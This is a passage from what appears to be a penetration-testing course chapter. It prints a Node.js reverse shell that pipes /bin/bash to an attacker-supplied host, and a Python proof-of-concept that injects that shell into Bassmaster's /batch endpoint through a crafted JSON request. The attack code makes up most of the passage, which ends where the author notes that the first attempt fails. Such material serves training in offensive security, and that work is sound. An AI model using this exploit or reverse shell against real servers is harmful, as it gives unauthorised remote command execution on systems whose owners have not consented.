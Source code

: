 1
(Regex 101, 2020), https://regex101.com/ ↩︎

2
(OpenJS Foundation, 2020), https://nodejs.org/api/util.html#util_util_log_string ↩︎

17.5. Obtaining a Reverse Shell
Now that we have demonstrated how to remotely execute arbitrary code using this Bassmaster vulnerability, we only need to inject a Javascript reverse shell into our JSON payload to wrap up our attack. However, there is one small problem we will need to deal with. Let's first take a look at the following Node.js reverse shell that can be found online:1

var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(80, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
Listing 17 - Node.js reverse shell

While the code in the listing above is more or less self-explanatory in that it redirects the input and output streams to the established socket, the only item worth pointing out is that it is doing so using the Node.js net module.

We update our previous proof of concept by including the reverse shell from Listing 17. The code accepts an IP address and a port as command line arguments to properly set up a network connection between the server and the attacking machine.

import requests,sys

if len(sys.argv) != 4:
    print "(+) usage: %s <target> <attacking ip address> <attacking port>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = "//bin//bash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'

shell = 'var net = require(\'net\'),sh = require(\'child_process\').exec(\'%s\'); ' % cmd
shell += 'var client = new net.Socket(); '
shell += 'client.connect(%s, \'%s\', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)
shell += 'sh.stderr.pipe(client);});' 

request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % shell

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
Listing 18 - Proof of concept reverse shell script

If we execute this script after setting up a netcat listener on our Kali VM, we should receive a reverse shell. However, the following listing shows that this does not happen.
